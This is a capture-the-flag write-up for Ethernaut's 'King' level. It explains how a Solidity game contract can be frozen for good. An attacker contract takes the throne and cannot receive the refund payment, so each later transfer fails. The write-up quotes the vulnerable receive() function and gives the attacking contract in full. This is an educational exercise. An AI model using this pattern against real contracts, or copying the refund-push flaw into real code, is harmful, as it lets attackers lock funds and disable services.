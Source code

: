 # 09. King
<sup>Difficulty 6/10</sup>

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## Solution

We need to break the game and be the one and only king forever.

The fallback function is the one delegated to update the king, how to break it?

```solidity
receive() external payable {
	require(msg.value >= prize || msg.sender == owner);
	king.transfer(msg.value);
	king = msg.sender;
	prize = msg.value;
}
```

Funds are moved using the `transfer` function... A remembrance of a precedent challenge made me find the *purr*fect solution!

In [challenge #07.Force](./07_force.md) we needed to fund a contract without any fallback method. In that case, we couldn't use the `transfer` or `send` methods because them would systematically fail. 
We can now exploit that behavior to crown our one and only ~~Cat~~ King!

Create a simple contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingCat {
    address payable contractInstance = 0x03CF5Cd253B47de3a9a54234fb0e7c25E9a0e0C1;  // challenge address
    function becomeThePurrfectKing() public payable {
        (bool sent, ) = contractInstance.call.value(msg.value)("");
        require(sent, "Not so purrfect!");
    }
}
```

Then call the `becomeThePurrfectKing` sending some ETH

All hail the King Cat!


Personal note: `transfer` and `send` didn't work in this case. Use `call`.

## OZ Corner

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).

